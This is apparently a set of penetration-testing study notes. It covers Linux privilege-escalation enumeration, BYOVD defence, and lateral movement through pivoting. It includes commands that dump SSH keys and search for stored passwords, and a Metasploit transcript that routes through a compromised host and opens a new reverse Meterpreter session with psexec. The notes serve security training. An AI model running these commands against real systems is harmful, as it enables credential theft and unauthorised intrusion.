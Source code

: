 #### Linux

| target | command |
| --- | --- |
| What can you do with `sudo` | `sudo -l` |
| Are there uncommon SETUID files | `find / -perm 4000 -uid 0` |
| Is netcat installed | `which nc` |
| Is smbclient installed | `which smbclient` |
| Any password in shell history | `find / -name "*history"` |
| Any passwords in web files | `grep -iR password /var/www` |
| Any unprotected SSH keys | `cat /home/*/.ssh/*` |

> SETUID files: Files users can run as a privilege of file owner's or group's

#### Defence

- EDR and Windows Defender block well known drivers used in BYOVD
- Endpoint security solutions will finally be bypassed after successful initial block
- Important functionality for those: initial defence and logging will help investigator to identify attack in an organization

### Lateral Movement: Pivot Point for access

- *Pivot*: A compromised host on victim's network
- Proxy pivot: proxy listens on attacker, sends through pivot to the other hosts in the victim's network
    - Port forwarding: simple port forwarding proxy
    - Route: exploit or auxiliary will traverse the proxy
- Port forwarding
    - ssh `-L` or `-R` module
    - (Windows dedicated) netsh
    - netcat with named pipe

#### Meterpreter Route

```
(once meterpreter succeeded in exploit)

meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/smb/psexec) > route add 10.10.10.0/24 1 (any exploits to hosts in 10.10.10.0/24 should use session 1)

(another exploit using Metasploit begins from here)

msf5 exploit(windows/smb/psexec) > set RHOST 10.10.10.100
msf5 exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 10.10.10.100:4444
[*] 10.10.10.11:445 - Selecting PowerShell target
[*] 10.10.10.11:445 - Executing the payload...
[+] 10.10.10.11:445 - Service start timed out, OK if running a command or
non-service executable...
[*] Sending stage (180291 bytes) to 10.10.10.100
[*] Meterpreter session 2 opened (10.10.10.100:4444 -> 10.10.10.11:1622) at
2020-01-24 11:45:31 +0000
meterpreter >
```

